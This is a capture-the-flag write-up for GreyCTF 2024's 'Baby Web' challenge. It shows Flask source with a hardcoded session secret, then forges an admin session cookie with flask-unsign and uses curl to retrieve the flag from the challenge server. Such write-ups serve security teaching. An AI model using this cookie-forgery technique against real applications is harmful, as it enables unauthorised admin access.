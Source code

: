 ```yaml
---
title: Baby Web
author: yufong
categories: [GreyCTF 2024, Web]
date: 2024-04-20
date_time: 2024-04-20 13:57
tags: 
  - greyctf-2024
  - python/flask
info:
  description: Flask session secret key leaked
  difficulty: 1
solved: yes
solution: "https://github.com/NUSGreyhats/greyctf24-challs-public/tree/main/quals/web/baby-web"
img_path: /_posts/Writeups/CTF/GreyCTF%202024/Web/Baby%20Web/attachments/
image:
  path: /_posts/Writeups/CTF/GreyCTF%202024/Web/Baby%20Web/attachments/../../Beautiful%20Styles/attachments/Beautiful%20Styles-20240510000105525.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Challenge Description

{{page.info.description}}

## Source Code Analysis

```
import os
from flask import Flask, render_template, session

app = Flask(__name__)
app.secret_key = "baby-web"
FLAG = os.getenv("FLAG", r"grey{fake_flag}")


@app.route("/", methods=["GET"])
def index():
    # Set session if not found
    if "is_admin" not in session:
        session["is_admin"] = False
    return render_template("index.html")


@app.route("/admin")
def admin():
    # Check if the user is admin through cookies
    return render_template("admin.html", flag=FLAG, is_admin=session.get("is_admin"))

#### Some other hidden code ###


if __name__ == "__main__":
    app.run(debug=True)

```
>Flask secret is given
{: .prompt-info}

## Solution
- Generate token with secret
	```
	┌──(venv3)─(root💀kali)-[~/boxes/nusgreyhat/WEB/Baby Web]
	└─$ flask-unsign --sign --secret baby-web --cookie "{'is_admin': True}"
	
	eyJpc19hZG1pbiI6dHJ1ZX0.ZiNXFw.WRsAhM4YuAbaSdsKlkG6EXWZFrU
	```
- Get Flag
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Fearless Concurrency]
	└─$ curl -H "Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0.ZiNXFw.WRsAhM4YuAbaSdsKlkG6EXWZFrU" http://challs.nusgreyhats.org:33338/flag
	Here is your flag: <code>grey{0h_n0_mY_5up3r_53cr3t_4dm1n_fl4g}</code>                
	```